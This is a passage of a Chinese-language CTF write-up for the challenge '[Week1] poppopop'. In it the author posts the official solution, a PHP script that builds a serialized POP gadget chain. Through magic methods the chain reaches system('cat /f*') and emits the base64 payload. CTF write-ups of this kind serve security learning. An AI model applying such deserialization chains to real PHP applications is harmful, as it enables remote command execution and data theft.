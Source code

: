 ### **[Week1] poppopop**

这个真不会，先放官方题解：

```php
<?php
class SH {

  public static $Web = false;
  public static $SHCTF = false;
}
class C {
  public $p;

  public function flag()
  {
    ($this->p)();
  }
}
class T{

  public $n;
  public function __destruct()
  {

    SH::$Web = true;
    echo "11";
  }
}
class F {
  public $o;
  public function __toString()
  {
    SH::$SHCTF = true;
    $this->o->flag();
    return "其实。。。。,";
  }
}
class SHCTF {
  public $isyou="system";
  public $flag="cat /f*";
  public function __invoke()
  {
    if (SH::$Web) {

      ($this->isyou)($this->flag);
      echo "小丑竟是我自己呜呜呜~";
    } else {
      echo "小丑别看了!";
    }
  }
}
$a =new T();
$a->n=new F();
$a->n->o=new C();
$a->n->o->p=new SHCTF();
echo base64_encode(serialize($a));
```

